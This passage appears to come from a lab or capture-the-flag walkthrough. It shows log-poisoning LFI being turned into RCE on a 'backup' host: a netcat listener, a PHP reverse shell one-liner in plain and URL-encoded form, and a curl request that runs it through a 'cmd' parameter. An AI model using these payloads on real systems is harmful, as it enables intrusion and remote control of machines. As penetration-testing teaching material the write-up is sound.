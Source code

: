 ```bash
drwxr-xr-x   2 root   root   4096 Apr 25 14:03 srv
dr-xr-xr-x  13 root   root      0 May 12 19:18 sys
drwxrwxrwt   1 root   root   4096 May 15 22:04 tmp
drwxr-xr-x   1 root   root   4096 Apr 25 14:03 usr
drwxr-xr-x   1 root   root   4096 May 12 18:15 var
 from 172.133.71.337 port 49260 ssh2
May 15 22:03:38 backup sshd[56]: Excess permission or bad ownership on file /var/log/btmp
May 15 22:03:39 backup sshd[56]: pam_unix(sshd:auth): check pass; user unknown
May 15 22:03:40 backup sshd[56]: Failed password for invalid user total 60
...
```

Perfect! Now let's get a shell on the backup machine. Open another SSH instance to backup machine, and open a netcat listener.

```bash
bob@dev:~$ nc -nvlp 1234
Listening on 0.0.0.0 1234
```

Now come back to you'r other SSH instance, and look at the `dev` machine IP address through the `hosts` file.

```bash
bob@dev:~$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.99.236.3     dev
```

As we know, PHP is running on the machine because of the `log_checker.php` utility used to perform the LFI/RCE. With thoses informations, go to Pentest Monkey website, and take the PHP reverse shell.

Source : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Replace the ip address.

```php
php -r '$sock=fsockopen("10.99.236.3",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Then URL encode it.

Source : https://meyerweb.com/eric/tools/dencoder/

```bash
php%20-r%20%27%24sock%3Dfsockopen(%2210.99.236.3%22%2C1234)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

Go back to to both SSH instance, be sure that you'r netcat instance is running on port same port as you'r payload, and execute the RCE from the LFI to get a shell.

```bash
bob@dev:~$ curl "http://backup/?file=/var/log/auth.log&cmd=php%20-r%20%27%24sock%3Dfsockopen(%2210.99.236.3%22%2C1234)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27"
```
